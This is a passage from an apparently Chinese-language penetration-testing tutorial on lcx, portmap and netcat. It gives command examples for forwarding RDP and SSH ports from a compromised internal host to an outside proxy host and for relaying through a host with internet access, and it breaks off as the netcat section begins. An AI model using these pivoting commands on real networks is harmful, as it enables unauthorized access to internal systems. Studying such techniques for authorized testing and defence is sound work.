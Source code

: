![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211027204331.png)

# 0x07 lcx、netcat 和 socat 的使用

## 1、lcx 使用

lcx 分为 Windows 版和 Linux 版，Linux 版叫 portmap

### Windows

  * 内网端口转发

    
    
    内网失陷主机  
    lcx.exe -slave rhost rport lhost lport  
      
    公网代理主机  
    lcx.exe -listen lport1 lport2
    
    
    内网失陷主机  
    lcx.exe -slave 123.123.123.123 4444 127.0.0.1 3389  
      
    公网代理主机  
    lcx.exe -listen 4444 5555

在建立连接后，访问公网代理主机的 5555 端口就能访问到内网失陷主机的 3389 端口了。

  * 本地端口映射

如果目标主机不能出网，这时可以利用内网中能够出网的主机，将其不能出网的主机端口映射到自身上，再借助端口转发到公网进行访问。

    
    
    lcx.exe -tran 53 <目标主机 IP 地址> 3389

### Linux

  * 内网端口转发

    
    
    内网失陷主机  
    ./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 <公网主机 IP> -p2 4444  
      
    公网代理主机  
    ./portmap -m 2 -p1 4444 -h2 <公网主机 IP> -p2 5555

此时访问公网主机 IP 的 5555 端口，就会访问到内网失陷主机的 22 端口了。

## 2、netcat 使用

nc 下载地址：https://eternallybored.org/misc/netcat/

nc 全称 netcat，它的功能很多，这里简单记录下两个常用的功能，其他的比如文件传输、端口扫描等等的就不介绍了，毕竟平时使用频率有一说一还是比较少的。

    
    